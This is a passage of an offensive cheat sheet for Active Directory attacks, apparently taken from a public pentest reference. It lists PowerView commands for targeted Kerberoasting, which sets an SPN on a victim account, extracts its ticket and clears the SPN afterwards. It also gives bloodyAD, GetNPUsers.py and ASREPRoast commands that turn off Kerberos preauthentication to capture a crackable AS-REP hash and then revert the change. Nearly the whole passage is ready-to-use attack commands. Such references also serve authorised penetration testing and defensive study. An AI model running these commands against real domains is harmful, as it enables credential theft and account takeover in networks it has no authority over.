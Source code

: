 		# Check if current user has already an SPN setted:
		PowerView2 > Get-DomainUser -Identity <UserName> | select serviceprincipalname

		# Force set the SPN on the account: Targeted Kerberoasting
		PowerView2 > Set-DomainObject <UserName> -Set @{serviceprincipalname='ops/whatever1'}
		PowerView3 > Set-DomainObject -Identity <UserName> -Set @{serviceprincipalname='any/thing'}

		# Grab the ticket
		PowerView2 > $User = Get-DomainUser username 
		PowerView2 > $User | Get-DomainSPNTicket | fl
		PowerView2 > $User | Select serviceprincipalname

		# Remove the SPN
		PowerView2 > Set-DomainObject -Identity username -Clear serviceprincipalname
		```

* We can change a victim's **userAccountControl** to not require Kerberos preauthentication, grab the user's crackable AS-REP, and then change the setting back.
	* Windows/Linux:
		```ps1
		# Modify the userAccountControl
		$ bloodyAD --host [DC IP] -d [DOMAIN] -u [AttackerUser] -p [MyPassword] add uac [Target_User] -f DONT_REQ_PREAUTH

		# Grab the ticket
		$ GetNPUsers.py DOMAIN/target_user -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>

		# Set back the userAccountControl
		$ bloodyAD --host [DC IP] -d [DOMAIN] -u [AttackerUser] -p [MyPassword] remove uac [Target_User] -f DONT_REQ_PREAUTH
		```
	* Windows only:
		```ps1
		# Modify the userAccountControl
		PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
		PowerView2 > Set-DomainObject -Identity username -XOR @{useraccountcontrol=4194304} -Verbose

		# Grab the ticket
		PowerView2 > Get-DomainUser username | ConvertFrom-UACValue
		ASREPRoast > Get-ASREPHash -Domain domain.local -UserName username
